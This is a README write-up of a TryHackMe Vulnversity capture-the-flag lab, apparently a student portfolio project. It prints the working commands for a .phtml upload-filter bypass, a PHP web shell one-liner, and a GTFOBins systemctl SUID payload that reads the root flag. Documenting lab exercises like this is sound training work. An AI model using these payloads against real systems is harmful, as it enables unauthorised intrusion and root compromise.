










<div align="center">

# 💥 Vulnerability Assessment — Vulnversity (Full Chain to Root)

**Project 09 of 10 — Foundational Projects — Penetration Testing & Privilege Escalation**

A Full Black-Box Penetration Test — Recon, Web Enumeration, a File-Upload Filter Bypass, Command Execution Through a Planted Web Shell, and Privilege Escalation via a Misconfigured SUID Binary — Ending With Root and the Flag


Seven steps run end-to-end against a TryHackMe target — reconnaissance, web enumeration, an extension-filter bypass, command execution through a planted web shell, and privilege escalation through a misconfigured SUID binary. No exploit CVE needed — a documented GTFOBins technique on a binary that should never have had the SUID bit set was enough.

> [!NOTE]
> TryHackMe's free-tier session limit expired multiple times during reconnaissance, requiring redeployment to a new target machine. The actual exploit chain — file upload through root access — was performed entirely on a single machine without switching mid-chain.

</div>

---

## 📑 Table of Contents

1. [At a Glance](#at-a-glance)
2. [Project Background](#project-background)
3. [Tools & Technologies](#tools-technologies)
4. [Environment](#environment)
5. [Attack Surface Map](#attack-surface-map)
6. [Investigation Challenges](#investigation-challenges)
7. [Attack Timeline](#attack-timeline)
8. [Module 1 — Deploy the Target](#module-1)
9. [Module 2 — Run Reconnaissance](#module-2)
10. [Module 3 — Enumerate Web Directories](#module-3)
11. [Module 4 — Bypass the Upload Filter](#module-4)
12. [Module 5 — Confirm Web Shell Execution](#module-5)
13. [Module 6 — Discover the SUID Binary](#module-6)
14. [Module 7 — Escalate to Root & Retrieve the Flag](#module-7)
15. [Coverage Snapshot](#coverage-snapshot)
16. [Full Attack Chain](#full-attack-chain)
17. [Challenges & Fixes](#challenges-fixes)
18. [Scope & Limitations](#scope-limitations)
19. [What I Learned](#what-i-learned)
20. [Skills Demonstrated](#skills-demonstrated)
21. [Screenshot Index](#screenshot-index)
22. [Repo Structure](#repo-structure)

---

<a id="at-a-glance"></a>
## 📊 At a Glance

<div align="center">

| 🧩 Modules | 🔑 Access Gained | 🚩 Flag Retrieved | 🖼️ Screenshots |
|:---:|:---:|:---:|:---:|
| **7** | **www-data → root** | **`a58ff8579f0a9270368d33a9966c7fd5`** | **7** |

</div>

---

<a id="project-background"></a>
## 📖 Project Background

This project runs a full black-box penetration test against a TryHackMe target machine (Vulnversity room): reconnaissance, web server enumeration, a file upload filter bypass, command execution through a planted web shell, and privilege escalation via a misconfigured SUID binary — ending with root access and the flag.

| Module Group | Focus |
|---|---|
| 🔍 **Recon & Enum (Modules 1–3)** | Deploy the target, scan it with Nmap, and enumerate hidden web directories |
| 🎭 **Foothold (Modules 4–5)** | Bypass the upload filter and confirm command execution as `www-data` |
| 🚨 **Privilege Escalation (Modules 6–7)** | Find the SUID misconfiguration and escalate to root via GTFOBins |

---

<a id="tools-technologies"></a>
## 🛠️ Tools & Technologies

| Tool | Purpose |
|------|---------|
| 🔍 Nmap | Port and service/version reconnaissance |
| 📁 Gobuster | Hidden web directory enumeration |
| 🎭 `.phtml` extension trick | Bypassing a `.php`-blocking upload filter |
| 🌐 `curl` | Interacting with the planted web shell over HTTP |
| 🚨 GTFOBins | Documented SUID/privilege-escalation technique for `systemctl` |

---

<a id="environment"></a>
## 🖧 Environment


| Item | Value |
|---|---|
| Lab Source | TryHackMe — Vulnversity room |
| Recon Tool | Nmap |
| Enumeration Tool | Gobuster |
| Shell Interaction | curl (HTTP-based web shell, not a reverse shell) |
| PrivEsc Technique | GTFOBins — `systemctl` SUID abuse |
| Attacker Host (final run) | `10.129.134.187` |
| Target (final run) | `10.129.159.237` |
| Web Port | 3333 (Apache 2.4.41) |

---

<a id="attack-surface-map"></a>
## 🗺️ Attack Surface Map


```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'fontSize': '16px'}, 'flowchart': {'nodeSpacing': 34, 'rankSpacing': 46, 'padding': 12}}}%%
flowchart LR
    NMAP["🔍 Nmap<br/>6 ports found"]:::nmap --> GB["📁 Gobuster<br/>/internal/ found"]:::gb
    GB --> UP["🎭 Upload shell.phtml<br/>filter bypassed"]:::up
    UP --> SHELL["🌐 Web shell<br/>www-data"]:::shell
    SHELL --> SUID["🔎 systemctl<br/>SUID bit set"]:::suid
    SUID --> ROOT["🚩 GTFOBins<br/>root flag"]:::root
    NMAP -.->|"❌ no ping response<br/>fixed with -Pn"| NMAP
    UP -.->|"❌ .php blocked"| SHELL
    classDef nmap fill:#1793D1,stroke:#0E5A82,stroke-width:2px,color:#FFFFFF
    classDef gb fill:#B9770E,stroke:#6E4409,stroke-width:2px,color:#FFFFFF
    classDef up fill:#76448A,stroke:#432752,stroke-width:2px,color:#FFFFFF
    classDef shell fill:#1A5276,stroke:#0B2E43,stroke-width:2px,color:#FFFFFF
    classDef suid fill:#943126,stroke:#571C16,stroke-width:2px,color:#FFFFFF
    classDef root fill:#117864,stroke:#083D33,stroke-width:2px,color:#FFFFFF
    linkStyle default stroke:#2C3E50,stroke-width:2px
```
<p align="center"><em>Recon feeds enumeration, enumeration feeds the upload bypass, and the resulting shell is what surfaces the SUID misconfiguration that ends the chain at root — the dashed lines mark the two points that needed a fix mid-chain.</em></p>

---

<a id="investigation-challenges"></a>
## 🐛 Investigation Challenges

| # | Challenge | Type |
|---|-------|------|
| 1 | First Nmap scan returned nothing against a freshly booted host | Host discovery ping not answered |
| 2 | TryHackMe's free-tier session expired mid-recon, more than once | Lab-platform constraint, required redeployment |
| 3 | `.php` uploads blocked directly by the upload filter | Extension-based filter, not content-based |
| 4 | Web shell access initially mislabeled as a "reverse shell" | Terminology accuracy |

---

<a id="attack-timeline"></a>
## 🔎 Attack Timeline


```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'fontSize': '15px'}, 'timeline': {'disableMulticolor': false}}}%%
timeline
    title Deployment to Root — one target, seven steps
    Stage 1 — Recon : Target deployed : Nmap -Pn — 6 ports found
    Stage 2 — Enumeration : Gobuster — /internal/ discovered
    Stage 3 — Foothold : .phtml bypasses filter : whoami confirms www-data
    Stage 4 — Discovery : systemctl found with SUID bit set
    Stage 5 — Root : GTFOBins payload run : Flag retrieved
```
<p align="center"><em>A Mermaid timeline instead of a flowchart — five stages read left to right, from deployment through to the retrieved root flag.</em></p>

---

<a id="module-1"></a>
## 🚀 Module 1 — Deploy the Target

**Objective:** Stand up the AttackBox and target machine.

### Step 1 — Deploy ✅

```
Deploy AttackBox via TryHackMe

→ Attacker Host IP: 10.114.168.176
→ Target IP: not yet known — discovered via Nmap next
```

<p align="center">
  <br>
  <em>Exhibit 1 — AttackBox and target machine deployed</em>
</p>

---

<a id="module-2"></a>
## 🔍 Module 2 — Run Reconnaissance

**Objective:** Identify open ports and running services on the target.

### Step 2 — Scan with Nmap ✅

```
nmap -sV -Pn 10.114.131.169
```

| Port | Service | Version |
|:---:|---|---|
| 21 | FTP | vsftpd 3.0.5 |
| 22 | SSH | OpenSSH 8.2p1 |
| 139 / 445 | Samba | smbd 4.6.2 |
| 3128 | Squid Proxy | 4.10 |
| **3333** | **Apache Web Server** | **2.4.41 ← primary attack surface** |

<p align="center">
  <br>
  <em>Exhibit 2 — Open ports and service versions identified</em>
</p>

---

<a id="module-3"></a>
## 📁 Module 3 — Enumerate Web Directories

**Objective:** Find hidden paths on the Apache web server.

### Step 3 — Run Gobuster ✅

```
gobuster dir -u http://10.114.131.169:3333 -w /usr/share/wordlists/dirb/common.txt

→ Found unindexed path: /internal/ (Status: 301)
   — an internal file upload utility
```

<p align="center">
  <br>
  <em>Exhibit 3 — Hidden /internal/ upload path discovered</em>
</p>

```
> Session expired after this point — redeployed to a new target
  machine. All remaining modules were carried out continuously
  on the new machine: Attacker 10.129.134.187, Target 10.129.159.237.
```

---

<a id="module-4"></a>
## 🎭 Module 4 — Bypass the Upload Filter

**Objective:** Get a working payload past the `.php` upload block.

### Step 4 — Upload a .phtml Payload ✅

```
printf '<?php system($_GET["cmd"]); ?>' > shell.phtml && \
curl -F "file=@shell.phtml" -F "submit=Submit" \
  http://10.129.159.237:3333/internal/index.php

→ .phtml still executes as PHP, but isn't blocked
  by the extension filter
```

<p align="center">
  <br>
  <em>Exhibit 4 — .phtml upload bypassing the extension filter</em>
</p>

---

<a id="module-5"></a>
## ✅ Module 5 — Confirm Web Shell Execution

**Objective:** Verify the uploaded shell actually executes commands.

### Step 5 — Test Command Execution ✅

```
curl "http://10.129.159.237:3333/internal/uploads/shell.phtml?cmd=whoami"

→ Output: www-data
```

```
> This is command execution via a web shell over HTTP,
  not an interactive reverse shell — no listener or reverse
  connection was used at any point in this chain.
```

<p align="center">
  <br>
  <em>Exhibit 5 — whoami confirms command execution as www-data (via web shell, not a reverse shell)</em>
</p>

---

<a id="module-6"></a>
## 🔎 Module 6 — Discover the SUID Binary

**Objective:** Look for a privilege-escalation vector on the compromised host.

### Step 6 — Check systemctl Permissions ✅

```
curl "http://10.129.159.237:3333/internal/uploads/shell.phtml?cmd=ls+-la+/bin/systemctl"

→ Output: -rwsr-xr-x 1 root root 996584 Jun 17 2024 /bin/systemctl

→ The "s" confirms the SUID bit is set — systemctl runs
  with root privileges regardless of who executes it
  (a known, documented vector via GTFOBins)
```

<p align="center">
  <br>
  <em>Exhibit 6 — systemctl found with SUID bit set</em>
</p>

---

<a id="module-7"></a>
## 🚩 Module 7 — Escalate to Root & Retrieve the Flag

**Objective:** Use the GTFOBins `systemctl` technique to run a payload as root.

### Step 7 — Run the GTFOBins Payload ✅

```
curl -G --data-urlencode "cmd=TF=\$(mktemp).service; echo '[Service]' > \$TF; \
echo 'Type=oneshot' >> \$TF; \
echo 'ExecStart=/bin/sh -c \"cat /root/root.txt > /tmp/flag.txt\"' >> \$TF; \
echo '[Install]' >> \$TF; echo 'WantedBy=multi-user.target' >> \$TF; \
/bin/systemctl link \$TF; /bin/systemctl enable --now \$TF; cat /tmp/flag.txt" \
"http://10.129.159.237:3333/internal/uploads/shell.phtml"

→ Flag retrieved: a58ff8579f0a9270368d33a9966c7fd5
```

<p align="center">
  <br>
  <em>Exhibit 7 — Root flag retrieved via GTFOBins technique</em>
</p>

---

<a id="coverage-snapshot"></a>
## 🌟 Coverage Snapshot

| 🛡️ Stage | ✅ Status | 📌 Detail |
|---|---|---|
| Target deployed | Live | AttackBox and target confirmed (Exhibit 1) |
| Reconnaissance complete | Proven | 6 open ports, Apache on 3333 identified (Exhibit 2) |
| Web enumeration complete | Proven | Hidden `/internal/` path found (Exhibit 3) |
| Foothold achieved | Proven | `.phtml` bypass uploaded (Exhibit 4) |
| Command execution confirmed | Proven | `whoami` → `www-data` (Exhibit 5) |
| SUID misconfiguration found | Proven | `systemctl` SUID bit confirmed (Exhibit 6) |
| Root achieved | Proven | GTFOBins payload run, flag retrieved (Exhibit 7) |

---

<a id="full-attack-chain"></a>
## 🎯 Full Attack Chain


```mermaid
sequenceDiagram
    autonumber
    participant P as 🧑‍💻 Pentester
    participant T as 🖥️ Target (10.129.159.237:3333)

    P->>T: nmap -sV -Pn — 6 ports found
    P->>T: gobuster dir — /internal/ discovered
    P->>T: Upload shell.phtml (bypasses .php filter)
    P->>T: GET ?cmd=whoami → www-data
    P->>T: GET ?cmd=ls -la /bin/systemctl → SUID bit set
    P->>T: GET ?cmd=<GTFOBins systemctl payload>
    T-->>P: root.txt flag: a58ff8579f0a9270368d33a9966c7fd5
```

| Stage | Technique | Outcome |
|:---:|---|---|
| Recon | Nmap service/version scan | Attack surface identified (port 3333) |
| Enumeration | Gobuster directory brute-force | Hidden upload endpoint found |
| Initial Access | Extension filter bypass (`.phtml`) | Web shell planted |
| Privilege Escalation | GTFOBins — `systemctl` SUID | Root access + flag |

---

<a id="challenges-fixes"></a>
## ⚠️ Challenges & Fixes

| ❌ Challenge | ✅ Fix |
|---|---|
| Nmap returned no results against a freshly booted host | Added `-Pn` to skip host-discovery ping |
| Session expired mid-recon, target machine changed | Redeployed and re-ran recon; exploit chain itself stayed on one machine |
| `.php` uploads were blocked by the upload filter | Renamed payload to `.phtml`, which still executes as PHP |
| Mislabeled web shell access as a "reverse shell" | Corrected terminology — HTTP-based command execution, not an interactive reverse connection |

---

<a id="scope-limitations"></a>
## 🚧 Scope & Limitations

- **Training lab, not live engagement:** target is a TryHackMe room, not an authorized real-world assessment.
- **Single privilege escalation path:** only the `systemctl` SUID vector was explored; other potential escalation paths on the box were not enumerated.
- **No post-exploitation persistence:** chain stops at flag retrieval — no persistence mechanism, lateral movement, or cleanup was performed.

---

<a id="what-i-learned"></a>
## 🧠 What I Learned

- **A single SUID misconfiguration can be the entire privilege-escalation story.** No separate exploit was needed — just a documented technique (GTFOBins) applied to a binary that should never have had the SUID bit set.
- **`find / -perm -4000` deserves to be one of the first things checked after any shell access**, low-privilege or not — it's a cheap check with a potentially total payoff.
- **A non-responsive host isn't always down — it may just be ignoring pings.** Adding `-Pn` to the Nmap scan resolved what looked like a dead target.
- **Precise terminology matters in write-ups, not just in the terminal.** Command execution through a planted web shell over HTTP is meaningfully different from an interactive reverse shell, and mislabeling it would misstate the actual technique used.

---

## 🌍 Real-World Application

This mirrors a real external-to-root compromise: initial foothold through a web application's file upload flaw, then privilege escalation through a misconfigured system binary. Both stages — finding the upload bypass and checking for SUID misconfigurations — are standard steps in any real penetration test or red team engagement, not just CTF-specific tricks.

---

<a id="skills-demonstrated"></a>
## 🛠️ Skills Demonstrated

- Service/version enumeration with Nmap, including handling non-responsive hosts (`-Pn`)
- Hidden directory discovery with Gobuster
- Identifying and bypassing weak file-upload filters (extension-based, not content-based)
- Interacting with a planted web shell via raw HTTP requests (`curl`)
- Identifying and exploiting SUID misconfigurations using GTFOBins
- Accurately distinguishing web-shell command execution from an interactive reverse shell

---

<a id="screenshot-index"></a>
## 🖼️ Screenshot Index

| # | File | Shows |
|:---:|---|---|
| 1 | `SS1_Machine_Deployed.PNG` | AttackBox and target machine deployed |
| 2 | `SS2_Nmap_Scan_Results.PNG` | Open ports and service versions identified |
| 3 | `SS3_Gobuster_Directories_Found.PNG` | Hidden `/internal/` upload path discovered |
| 4 | `SS4_Upload_Bypass.PNG` | `.phtml` upload bypassing the extension filter |
| 5 | `SS5_Reverse_Shell_Connected.PNG` | `whoami` confirms command execution as `www-data` (via web shell, not an interactive reverse shell) |
| 6 | `SS6_SUID_Binaries_Found.PNG` | `systemctl` found with SUID bit set |
| 7 | `SS7_Root_Access_Confirmed.PNG` | Root flag retrieved via GTFOBins technique |

---

<a id="repo-structure"></a>
## 📁 Repo Structure

```text
1-Foundational-Projects/project-09-vulnerability-assessment-report/
|-- README.md
`-- screenshots/
    |-- SS1_Machine_Deployed.PNG
    |-- SS2_Nmap_Scan_Results.PNG
    |-- SS3_Gobuster_Directories_Found.PNG
    |-- SS4_Upload_Bypass.PNG
    |-- SS5_Reverse_Shell_Connected.PNG
    |-- SS6_SUID_Binaries_Found.PNG
    `-- SS7_Root_Access_Confirmed.PNG
```

<div align="center">

💥 **[TryHackMe — Vulnversity](https://tryhackme.com/room/vulnversity)** · 🛠️ **[GTFOBins — systemctl](https://gtfobins.github.io/gtfobins/systemctl/)**

</div>
